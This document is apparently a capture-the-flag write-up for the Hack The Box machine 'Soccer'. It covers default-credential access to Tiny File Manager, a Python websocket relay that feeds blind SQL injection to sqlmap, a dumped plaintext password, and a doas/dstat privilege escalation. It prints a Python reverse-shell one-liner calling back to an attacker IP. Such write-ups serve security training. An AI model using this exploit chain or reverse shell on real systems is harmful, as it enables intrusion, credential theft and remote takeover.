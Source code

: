 ### Tiny File Manager
V : 2.4.3
Default Credentials: admin/admin@123

![[Pasted image 20230307205333.png]]

(Writable folder?)
/var/www/html/tiny/tinyfilemanager.php
/var/www/html/tiny/uploads/tinyfilemanager.php


## Getting user

Create Folder -> Upload php shell to newly created folder -> Reverse shell 

Got to use this article to abuse websocket: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

Final py:
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:7001/?id=*")

try:
	middleware_server(('0.0.0.0',7001))
except KeyboardInterrupt:
	pass

```

Dumping using sqlmap:
```bash
sqlmap -u 'http://localhost:7001/?id=90338' --threads 10 --dbms=MySQL -D soccer_db --dump-all
<<>>
+---------+-------------------+----------------------+----------+
| id      | email             | password             | username |
+---------+-------------------+----------------------+----------+
| 1324    | player@player.htb | PlayerOftheMatch2022 | AAAA??   |
| <blank> | <blank>           | <blank>              | <blank>  |
+---------+-------------------+----------------------+----------+
<<>>
```

htb : PlayerOftheMatch2022

### Root
Command for root:
doas -u root /usr/bin/dstat --rev

rev.py
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.62",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Copy dstat_rev.py -> usr/local/share/dstat/
Run dstat
